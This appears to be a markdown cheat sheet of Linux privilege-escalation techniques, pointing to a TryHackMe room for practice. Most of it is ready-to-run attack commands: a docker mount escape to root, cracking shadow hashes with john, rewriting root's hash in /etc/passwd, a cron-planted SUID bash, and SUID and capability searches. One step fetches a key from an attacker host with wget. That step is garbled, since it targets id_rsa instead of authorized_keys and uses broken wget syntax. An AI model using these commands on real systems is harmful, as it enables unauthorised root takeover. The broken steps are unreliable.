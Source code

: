 -`netcat -tl` (-t: list only tcp protocol ,-l: list all the listening port)

-`cat /etc/issue` for linux distro version

-`cat /proc/version` for linux version

- If you see `docker` group in return of `id` command:
	- Get docker image with `docker images` (under REPOSITORY)
	- run `docker run -v /:/mnt --rm -it $IMAGE chroot /mnt bash` to get root

- if `/etc/shadow` is readable you can get the root's hash (entire line) ,go back your attacker machine ,save the hash as a file ,john it (```john --wordlist=/usr/share/wordlists/rockyou.txt hash
```) ,finally `john --show hash` 

- You can crack other users password with john ,go to `/etc/passwd` get user name and hash (eg Adam:$hash), save it into a file ,then john it (`john --wordlist=/usr/share/wordlists/rockyou.txt hash`)

- if `/etc/passwd` is editable then (`mkpasswd -m sha-512 newpasswordhere`) ,copy the hash ,paste it into `/etc/passwd`'s root hash [it is also possible doing same thing on /etc/passwd ,just change the "x" with the hash that you created ]

- If you saw a program running on the cron jobs > then copy the file name > go to user's home directory > nano file name  >
	```shell
	#!/bin/bash
	
	cp /bin/bash /tmp/rootbash
	chmod +xs /tmp/rootbash
	```
	wait till end of the minute > check `/tmp` file ,if program does exist then `/tmp/rootbash -p` .. you're the root#

- If there is a file running on root/user permissions ,modify it with following commands:

1 - `echo  "touch /home/user/.ssh/id_rsa" > helloworld.sh` (if .ssh folder exist, if not then ,create it)

2 - create a ssh key with `ssh-keygen in` attacker(local) machine

3 - open a listener in the path that you created ssh key

4 - copy id_rsa key to target's home directory `echo  "wget http://attacker_ip:port/id_rsa /home/user/.ssh/id_rsa" > helloworld.sh`

5 - now you can connect the more privileged user via ssh

***NOTE : https://tryhackme.com/room/linuxprivesc is a great source to practice***

- check user group (for an example if user group in docker you can run : `docker run -v /:/mnt --rm -it bash chroot /mnt bash`)

- `/etc/sudoers`

- `find / -perm 4000 -type f -exec ls -la {} 2>/dev/null \;`

- `find / -perm -u=s -type f 2>/dev/null`

- `find / -user root -perm -u=s 2>/dev/null`

- `getcap -r / 2>/dev/null` to find capabilites (route it to /dev/null to get a clean list)

- `find / -name *alice* -type f 2>/dev/null`

- `cat /root/.ssh/id_rsa` (worth to try)

```